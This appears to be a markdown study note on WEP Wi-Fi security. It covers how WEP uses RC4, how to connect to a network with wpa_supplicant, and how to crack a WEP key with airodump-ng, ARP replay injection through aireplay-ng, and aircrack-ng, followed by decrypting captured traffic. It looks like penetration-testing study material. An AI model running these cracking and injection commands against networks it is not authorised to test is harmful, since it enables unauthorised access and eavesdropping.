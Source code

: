 # WEP
- Wired Equivalent Privacy
- Uses Rivest Cipher 4 (RC4) Stream cipher
- **40** Bit or **104** Bit shared key + **24** Bit IV concatenated to the Shared Key
  --> **64** or **128** Bit encryption key

<img src="./images/wep.jpg" width="700"/>

<img src="./images/mpdu.png" width="700"/>

### Connecting using wpa_supplicant

```
wpa_supplicant -i wlan0 -c wep.conf
wpa_supplicant -B -i wlan0 -c wep.conf
```

wep.conf
```
network={
    scan_ssid=1
    ssid="WepCorpo"
    key_mgmt=NONE
    wep_key0="Password123"
    wp_tx_keyidx=0
}
```

### Cracking WEP
- 250,000 IVs for cracking 64 bit WEP Key
- 1,500,000 IVs for cracking 128-bit WEP Key

--> You can do passive IV capture (but it will take time)  
OR
--> Inject traffic to force more packets and more IVs (Replay Attack) 
- Capture ARP packet and send to AP, it will send reply.

```
sudo airodump-ng -i wlan1 --bssid 14:D6:4D:26:73:96 -w wep
sudo aireplay-ng -3 -b 14:D6:4D:26:73:96 -h 66:B9:B8:1D:EC:66 wlan1
sudo aircrack-ng wep-01.ivs
```

<img src="./images/wep_attack_arp_replay.png" width="800"/>

### Decrypt traffic
Once the key is retrieve attacker can decrypt traffic for other devices.  

- WireShark (GUI)
- Airdecap-ng (CLI)

### WEP Cracking alternative
In case you don't have enought IVs to recover the key you can use dictionnary attack.  
